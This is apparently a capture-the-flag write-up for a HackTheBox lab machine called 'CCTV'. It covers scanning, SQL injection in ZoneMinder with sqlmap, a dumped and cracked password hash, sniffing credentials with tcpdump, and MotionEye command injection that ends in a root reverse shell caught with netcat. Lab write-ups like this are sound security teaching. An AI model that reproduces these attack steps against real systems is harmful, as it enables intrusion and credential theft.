









# CCTV - Easy

Target IP: **10.129.244.156**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.244.156 -v```

Output shows standard port 22 for ssh and port 80 running Apache 2.4.58.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_  256 e3:9b:38:08:9a:d7:e9:d1:94:11:ff:50:80:bc:f2:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```cctv.htb``` to our hosts file and navigate to it.

We are greeted with this home page.



Clicking on the log in button on the top right leads us to a log in page for ZoneMinder.



```admin:admin``` works to authenticate. We are lead to the admin panel of ZoneMinder, and we can also see the version on the top right, version 1.37.63.



Let's look for publicly disclosed vulnerabilities for this version. A search online reveals that this is vulnerable to CVE-2024-51482, an SQLi vulnerability.

The vulnerable parameter is ```tid``` in ```/zm/index.php?view=request&request=event&action=removetag&tid=1```.

Let's use sqlmap to exploit this.

We get some hashes.

```
Database: zm
Table: Users
[3 entries]
+----+---------+---------+---------+---------+---------+---------+----------+----------+--------------------------------------------------------------+------------+----------+----------+----------+----------+-----------+------------+------------+--------------+----------------+
| Id | Email   | Phone   | Name    | Control | Devices | Enabled | HomeView | Monitors | Password                                                     | Username   | Events   | Groups   | Stream   | System   | Snapshots | APIEnabled | Language   | MaxBandwidth | TokenMinExpiry |
+----+---------+---------+---------+---------+---------+---------+----------+----------+--------------------------------------------------------------+------------+----------+----------+----------+----------+-----------+------------+------------+--------------+----------------+
| 1  | <blank> | <blank> | <blank> | Edit    | Edit    | 1       | console  | Create   | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm | superadmin | Edit     | Edit     | View     | Edit     | Edit      | 1          | <blank>    | <blank>      | 0              |
| 2  | <blank> | <blank> | mark    | Edit    | Edit    | 1       | console  | Create   | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. | mark       | Edit     | Edit     | View     | View     | <blank>   | 1          | <blank>    | <blank>      | 0              |
| 3  | <blank> | <blank> | admin   | Edit    | Edit    | 1       | console  | Create   | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m | admin      | Edit     | Edit     | View     | View     | <blank>   | 1          | <blank>    | <blank>      | 0              |
+----+---------+---------+---------+---------+---------+---------+----------+----------+--------------------------------------------------------------+------------+----------+----------+----------+----------+-----------+------------+------------+--------------+----------------+
```

We successfully crack the hash for ```mark```.

```$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.:opensesame```

Let's log in through ssh.

We're in!

```
mark@cctv:~$ whoami
mark
```

```mark``` is in some interesting groups.

```
mark@cctv:~$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
```

There is a ```sa_user``` user in ```/home``` that we want to move laterally into.

```
mark@cctv:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar  2  2026 .
drwxr-xr-x 23 root    root    4096 Mar  2  2026 ..
drwxr-x---  5 mark    mark    4096 Mar  2  2026 mark
drwxr-x---  4 sa_mark sa_mark 4096 Mar  2  2026 sa_mark
```

There are some interesting directories in ```/opt```.

```
mark@cctv:/opt$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Mar  2  2026 .
drwxr-xr-x 23 root root 4096 Mar  2  2026 ..
drwx--x--x  4 root root 4096 Mar  2  2026 containerd
drwxr-xr-x  3 root root 4096 Mar  2  2026 video
```

Inside ```/opt/video/backup```, there is a log file that seems to capture authorization requests for ```sa_mark```. It seems to be periodic. Perhaps there is a cron job running this.

```
mark@cctv:/opt/video/backups$ cat server.log 
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-10-09 15:23:17
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-10-09 15:24:12
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-10-09 15:24:43
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-10-09 15:25:31
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-10-09 15:26:26
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-10-09 15:27:01
```

Running linpeas reveals this: ```/usr/bin/tcpdump cap_net_raw=eip```.

Usually ```tcpdump``` requires ```root``` privileges, but here we are explicitly allowed to run it. So I say we try it. We could potentially capture the authorization that is occurring as ```sa_mark```.

Let's capture some traffic.

```
mark@cctv:~$ tcpdump -i any -w capture.pcap
```

Opening the capture file and searching for "PASS" gets us credentials for ```sa_mark```.



Let's log in as ```sa_mark```.

We successfully authenticate with the credentials.

```
mark@cctv:~$ su - sa_mark
Password: 
$ whoami
sa_mark
```

We can proceed to get the user flag from here.

## Root Flag

We can't run ```sudo``` as ```sa_mark```.

There is an interesting pdf file in the home directory.

```
sa_mark@cctv:~$ ls
'SecureVision Staff Announcement.pdf'   user.txt
```

This is just a pdf saying that the company will migrate to ZoneMinder, which we already saw. But what was previously in place?

Some unusual ports are listening.

```
sa_mark@cctv:~$ ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0         127.0.0.54:53         0.0.0.0:*          
udp   UNCONN 0      0      127.0.0.53%lo:53         0.0.0.0:*          
udp   UNCONN 0      0            0.0.0.0:68         0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8554       0.0.0.0:*          
tcp   LISTEN 0      70         127.0.0.1:33060      0.0.0.0:*          
tcp   LISTEN 0      128        127.0.0.1:8765       0.0.0.0:*          
tcp   LISTEN 0      4096      127.0.0.54:53         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8888       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:9081       0.0.0.0:*          
tcp   LISTEN 0      151        127.0.0.1:3306       0.0.0.0:*          
tcp   LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:7999       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:1935       0.0.0.0:*          
tcp   LISTEN 0      511                *:80               *:*          
tcp   LISTEN 0      4096            [::]:22            [::]:*          
```

Let's set up a dynamic SOCKS proxy and investigate further.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-w54riemuyu]─[~]
└──╼ [★]$ ssh -f -N -D 1080 sa_mark@10.129.244.156
```

Port 8765 is running ultraseek-http. This seems interesting.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-w54riemuyu]─[~]
└──╼ [★]$ proxychains nmap 10.129.244.156 -p8765
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-09 12:32 EDT
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.244.156:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.244.156:8765 <--socket error or timeout!
Nmap scan report for cctv.htb (10.129.244.156)
Host is up (0.0090s latency).

PORT     STATE  SERVICE
8765/tcp closed ultraseek-http

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

Navigating to it brings us to MotionEye.



```admin:X1l9fx1ZjS7RZb``` works to authenticate.

We can see that it is running version 0.43.1b4. This is vulnerable to CVE-2025-60787, a command injection vulnerability.



We first need to edit the configUiValid function to always return true.



We can reload the page to apply our changes to the front end.



Then, we can enter our payload into the image file section.



After applying changes, we get ```root```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-w54riemuyu]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.244.156 50408
bash: cannot set terminal process group (35632): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# whoami
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
